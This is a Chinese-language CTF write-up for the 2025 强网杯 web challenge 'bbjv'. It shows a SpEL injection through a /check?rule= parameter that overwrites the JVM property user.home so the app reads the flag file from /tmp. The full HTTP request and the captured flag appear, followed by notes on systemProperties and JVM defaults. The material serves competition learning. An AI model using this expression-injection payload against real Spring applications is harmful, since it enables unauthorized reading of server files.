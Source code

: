 ```yaml
---
title: "2025 强网杯 bbjv"
outline: deep
tags: "CTF, writeup, 2025强网杯"
updateTime: "2025-10-25 17:38"
---
```

# 2025 强网杯 bbjv
闲来无事，顺手写一题强网杯Web签到题。
# 分析

`ReflectivePropertyAccessor`类限制Spel表达式无法直接实例化类，也就是无法通过构造其他类进行RCE

![image](assets/2025强网杯bbjv/image-20251019133553-9rm3atf.png)

题目存在对flag.txt的读取，说明其题目本意不是让我们进行rce，而是修改环境变量`user.home`，从而读取flag

![image](assets/2025强网杯bbjv/image-20251019133851-swgz49a.png)

给出的Dcokerfile，我们可以发现flag.txt在/tmp目录下，因此我们只需要修改系统环境变量，将`user.home`修改为`/tmp`即可获得flag

![image](assets/2025强网杯bbjv/image-20251019133950-557xayo.png)

# 题解

```
GET /check?rule=&#123;&#123;urlesc(#{#systemProperties['user.home']='/tmp'})&#125;&#125; HTTP/2.0
Host: eci-2ze848gtw123nuofjx8b.cloudeci1.ichunqiu.com:8080
sec-fetch-site: none
upgrade-insecure-requests: 1
priority: u=0, i
accept-language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1
accept-encoding: gzip, deflate, br, zstd
sec-ch-ua: "Google Chrome";v="141", "Not?A_Brand";v="8", "Chromium";v="141"
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-mode: navigate
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
sec-fetch-dest: document
```

![image](assets/2025强网杯bbjv/image-20251019133634-kaocr47.png)

`flag{030d206d-92ea-4c12-a96e-23e11eaaa882}`

# 思考

`systemProperties`变量在Spring EL（SpEL）中，**代表当前JVM中的所有系统属性**，通常以`java.util.Properties`对象形式提供。

来源：这些属性主要来自JVM启动参数（以`-D`指定，如`-Dfile.encoding=UTF-8`），也包含JVM运行时内置属性（如`java.version`、`user.home`等）。

与`systemEnvironment`区别：`systemProperties`获取的是JVM级别的系统属性。而`systemEnvironment`获取的是操作系统级别的环境变量，例如PATH、JAVA\_HOME等。它们是两个不同的概念。

在此环境中不存在`systemEnvironment`变量值。

为什么Dockerfile中没有指定`user.home`的值，JVM也会设置其为`/root`？

![image](assets/2025强网杯bbjv/image-20251019135000-3j83bip.png)

**JVM内置默认值**

Java运行时环境会设置一系列默认的系统属性，包括：

- `user.home` - 用户主目录
- `user.dir` - 当前工作目录
- `java.home` - Java安装目录
- `os.name` - 操作系统名称

![image](assets/2025强网杯bbjv/image-20251019135342-1b1kz6i.png)